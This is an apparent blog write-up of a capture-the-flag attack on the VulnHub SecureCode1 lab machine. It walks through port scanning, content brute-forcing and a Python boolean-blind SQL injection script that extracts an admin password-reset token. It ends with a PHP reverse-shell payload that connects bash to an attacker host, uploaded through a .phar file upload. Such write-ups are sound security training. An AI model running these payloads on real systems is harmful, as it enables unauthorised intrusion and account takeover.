 ```yaml
---
layout: post
title:  VulnHub SecureCode1 Write-Up
description: OSWE-like vulnerable machine write-up.
image: /assets/400x400.jpg
author: thr3athunt3r
date:   2021-05-27 02:00:00 +0800
categories: ctf
---
```


### 1. Service Discovery: 
#### Basic port knocking on all ports
```bash
nmap -p- -v 192.168.139.143
```

![](/assets/securecode1/securecode1_nmap_1.png)

#### Port service enumeration
```bash
nmap -sC -sV -O -Pn -o nmap.txt 192.168.139.143
```

![](/assets/securecode1/securecode1_nmap_2.png)

### 2. Content Discovery: 
#### Default root directory content on http service
- We can determine the server has php running on backend by appending `index.php` on root directory.

![](/assets/securecode1/securecode1_home.png)

#### Brute force contents on target server
```bash
ffuf -u http://192.168.139.143/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 -e .php,.html,.rar,.7zip,.tar.gz,.gz,.zip,.bak -o ffuf.txt -fs 3650
```

![](/assets/securecode1/securecode1_ffuf.png)

#### Valid users can be enumerated through `resetPassword.php`
- `admin` user enumerated, password has been reset

![](/assets/securecode1/securecode1_reset2.png)

![](/assets/securecode1/securecode1_reset.png)

![](/assets/securecode1/securecode1_reset_pw.png)

#### Basic authentication tests attempted with username `admin` but nothing works
![](/assets/securecode1/securecode1_test.png)

#### Download `source_code.zip` that we found earlier
![](/assets/securecode1/securecode1_download.png)

### 3. Source Code Analysis: 
#### Unzipped content structure of `source_code.zip`
![](/assets/securecode1/securecode1_unzipped.png)

#### `/db.sql`
- One of the tables in database named `user`
- `user` table has these columns: `id`, `username`, `password`, `email`, `gender`, `id_level`, `token`

![](/assets/securecode1/securecode1_db.png)

#### `/login/resetPassword.php`
- A token with 15 alphanumeric characters was generated and sent to admin's mailbox
- We can reset admin's password via `http://192.168.139.143/login/doResetPassword.php?token=<TOKEN>`

![](/assets/securecode1/securecode1_reset_php.png)

#### `/item/viewItem.php`
- Most of the contents in the server require authenticated access, except this
- `id` paramerter vulnerable to SQL injection
- `mysqli_real_escape_string` method only sanitize some special characters
- User input was not fully sanitized, we can still perform SQL injection without any special characters

![](/assets/securecode1/securecode1_view.png)

#### `/item/updateItem.php`
- PHP file upload is possible with .phar extension

![](/assets/securecode1/securecode1_update.png)

### 4. Testing SQL Injection: 
#### Boolean-based blind SQL 
- if *TRUE*

![](/assets/securecode1/securecode1_burp_1.png)

- if *FALSE*

![](/assets/securecode1/securecode1_burp_2.png)

#### Extract admin's password reset `token` from `user` table
- `exploit.py`

```python
#!/usr/bin/python3
import requests

token = ''
position = 1

while(1):
    for i in range(0,255):
        url = 'http://192.168.139.144/item/viewItem.php?id=1+AND+(SELECT+IF(1,(ASCII(SUBSTRING((SELECT+token+FROM+user+where+id=1),'
        + str(position) + ',1))=' + str(i) + '),0))'
        r = requests.get(url)
        if r.status_code == 404:            
            token = token+str(chr(i))
            position = position + 1
            print(token)
    if len(token) == 15:        
        break
```
![](/assets/securecode1/securecode1_exploit.png)

#### Reset admin's password with that token

![](/assets/securecode1/securecode1_change_pw.png)

#### Logged in with new password and we got our first flag

![](/assets/securecode1/securecode1_login.png)

### 5. Insecure File Upload to RCE: 
#### Create a simple php reverse web shell
- `backdoor.phar`

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.139.132/3344 0>&1'"); ?>
```

#### Upload the web shell by editing any of the existing items
![](/assets/securecode1/securecode1_shell.png)

#### Listen port on our attacker machine
![](/assets/securecode1/securecode1_listen.png)

#### Refresh the web page and we've got our shell
![](/assets/securecode1/securecode1_refresh.png)

![](/assets/securecode1/securecode1_enter.png)

#### Also the second flag
![](/assets/securecode1/securecode1_flag2.png)

### 6. Finished

*Only 2 flags in this machine.*
<br>
<br>
<br>

